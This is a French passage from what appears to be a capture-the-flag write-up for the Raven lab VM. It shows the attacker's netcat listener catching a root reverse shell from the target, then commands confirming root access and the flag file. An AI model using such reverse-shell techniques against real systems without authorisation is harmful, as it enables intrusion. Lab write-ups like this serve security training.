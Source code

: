 ... et enfin, on récupère la connexion sur le poste de l'attaquant ! Root woot woot ! 

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 40580

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

ls -al /root/flag4.txt
-rw-r--r-- 1 root root 397 Nov  9 08:31 /root/flag4.txt

```

Merci beaucoup à William McCann pour cette VM améliorée !

Après Raven: 1, c'était très plaisant d'arriver jusqu'à root sans aucun mot de passe par défaut, ou de privilèges sudo abusifs. 